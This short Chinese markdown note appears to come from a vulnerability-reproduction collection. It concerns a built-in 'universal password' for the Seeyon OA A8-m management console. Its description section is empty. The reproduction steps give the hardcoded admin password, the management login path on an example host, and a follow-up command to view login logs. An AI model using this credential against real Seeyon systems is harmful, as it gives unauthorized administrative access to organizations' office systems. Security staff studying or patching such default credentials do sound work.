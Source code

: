 ```yaml
---
title: 致远OA A8-m 后台万能密码
id: zhfly3355
---
```


# 致远OA A8-m 后台万能密码

## 一、漏洞简介

## 二、漏洞影响

致远OA A8-m

## 三、复现过程

密码：

```
WLCCYBD@SEEYON 
```

登陆地址：

```
http://www.0-sec.org/seeyon/management/status.jsp 
```

成功之后 输入 login 查看登录日志